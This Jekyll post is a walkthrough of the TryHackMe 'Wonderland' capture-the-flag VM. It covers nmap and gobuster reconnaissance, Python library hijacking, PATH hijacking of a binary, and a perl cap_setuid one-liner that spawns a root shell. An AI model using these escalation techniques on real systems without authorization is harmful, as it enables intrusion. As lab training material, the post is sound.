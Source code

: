 ```yaml
---
layout: post
title: "Wonderland: Try Hack Me Walkthrough"
date: 2020-06-05 20:20:20 +0000
last_modified_at: 2020-06-05 20:20:20 +0000
category: Walkthrough
tags: ["Try Hack Me", Wonderland, Weekly Challenge, Web]
comments: true
image:
  feature: WonderLand/WonderlandFeature_ue4mbd.jpg
  credit: WallpaperCave / WallpaperCave
  creditlink: https://wallpapercave.com/w/wp4684154
---
```


This post documents the complete walkthrough of Wonderland, a weekly vulnerable challenge [VM][1] created by [NinjaJc01][2], and hosted at [Try Hack Me][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Wonderland is a weekly challenge vulnerable VM from Try Hack Me.

## Information Gathering

Let’s start with a `nmap` scan to establish the open ports in the host.

```
# nmap -vv --reason -Pn -sV -sC --version-all -oN /root/Desktop/THM/Wonderland/scans/tcp_nmap.txt 10.10.200.195
...
Nmap scan report for 10.10.200.195
Host is up, received user-set (0.098s latency).
Scanned at 2020-06-05 17:29:02 EDT for 20s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Website Analysis

Appears to be some kind of `http` service. Here's how it looks like.

{% include image.html image_alt="WonderLand/WonderlandFirstPage_elolsj.jpg" image_src="WonderLand/WonderlandFirstPage_elolsj.jpg" %}

First things first we do a `gobuster` scan.

```
gobuster dir -u http://10.10.200.195 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

Once the scan returns we see one result.

{% include image.html image_alt="WonderLand/WonderlandFirstDirb_q46f3m.jpg" image_src="WonderLand/WonderlandFirstDirb_q46f3m.jpg" %}

Going to that page we view the source of the page. We see a comment about following the rabbit.

{% include image.html image_alt="WonderLand/WonderlandFirstPage_elolsj.jpg" image_src="WonderLand/WonderlandFirstPage_elolsj.jpg" %}

We run another `gobuster` from this new directory. This will hopefully show us more of the path.

```
gobuster dir -u http://10.10.200.195/r/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

It looks like the scan returns a new directory from this path.

{% include image.html image_alt="WonderLand/WonderlandDirb2_hunewl.jpg" image_src="WonderLand/WonderlandDirb2_hunewl.jpg" %}

Viewing that page returned the same message as before... we try going to /r/a/b/b/i/t

{% include image.html image_alt="WonderLand/WonderLandNewPage_j8nsqk.jpg" image_src="WonderLand/WonderLandNewPage_j8nsqk.jpg" %}

We view the source of this page and it gives us what looks to be some login credentials.

{% include image.html image_alt="WonderLand/WonderLandAliceCreds_xenhos.jpg" image_src="WonderLand/WonderLandAliceCreds_xenhos.jpg" %}

## Exploiting the Box

### Getting `user.txt`

#### Getting Rabbit

```
ssh alice@10.10.200.195
```

Since we have the alice password. We run a sudo -l to see if we can run any commands on the box.

{% include image.html image_alt="WonderLand/WonderlandAliceSudo_d5tisn.jpg" image_src="WonderLand/WonderlandAliceSudo_d5tisn.jpg" %}

We see we can run python3.6 as rabbit with a certain python script. We also see in the script it imports random. We can do something called python library hijacking. If we place a random.py file in the same directory when import random runs it will use our python file instead of the random.py library python file.

{% include image.html image_alt="WonderLand/WonderLandAlicePython_gxrxbe.jpg" image_src="WonderLand/WonderLandAlicePython_gxrxbe.jpg" %}


```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 

```

{% include image.html image_alt="WonderLand/wonderlandrabbitstart_xpwq91.jpg" image_src="WonderLand/wonderlandrabbitstart_xpwq91.jpg" %}

#### Getting madhatter

Now we move over to /home/rabbit. We see a binary called teaTime. When we run it the binary shows the following display.

{% include image.html image_alt="WonderLand/wonderlandrabbitteaparty_ljq5f2.jpg" image_src="WonderLand/wonderlandrabbitteaparty_ljq5f2.jpg" %}

I copied the file back to our system by running: `python3 -m http.server`. We then strings the file on our system and notice it calls date without specifying the path. This means we hijack the path and take over the date binary.

{% include image.html image_alt="WonderLand/WonderlandRabbitStrings_fnnlx3.jpg" image_src="WonderLand/WonderlandRabbitStrings_fnnlx3.jpg" %}

We create the following file with `Vi` on the system as rabbit and do `chmod +x date` on our new file.

{% include image.html image_alt="WonderLand/WonderLandDate_upmv72.jpg" image_src="WonderLand/WonderLandDate_upmv72.jpg" %}

We then change our path by doing `export PATH=/home/rabbit:$PATH` and run the `teaParty` 

{% include image.html image_alt="WonderLand/WonderlandHatterInit_xt813h.jpg" image_src="WonderLand/WonderlandHatterInit_xt813h.jpg" %}

### Getting `root.txt`

We do our standard enumeration using `linpeas` and see that `/usr/bin/perl` has cap_setuid+ep capabilities 

{% include image.html image_alt="WonderLand/WonderLandEnum_oyo70g.jpg" image_src="WonderLand/WonderLandEnum_oyo70g.jpg" %}

```
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

Running this gives us root as perl as setuid privileges so it can execute /bin/bash as root

{% include image.html image_alt="WonderLand/WonderLandRoot_hxhyj2.jpg" image_src="WonderLand/WonderLandRoot_hxhyj2.jpg" %}

Doing this we see our root.txt flag in the Alice directory!

{% include image.html image_alt="WonderLand/WonderlandRootFlag_thkrtu.jpg" image_src="WonderLand/WonderlandRootFlag_thkrtu.jpg" %}

We also can navigate to /root and get our user.txt flag.

{% include image.html image_alt="WonderLand/WonderLandUser_gnpd6i.jpg" image_src="WonderLand/WonderLandUser_gnpd6i.jpg" %}

:dancer:

[1]: https://tryhackme.com/room/wonderland
[2]: https://tryhackme.com/p/NinjaJc01
[3]: https://tryhackme.com
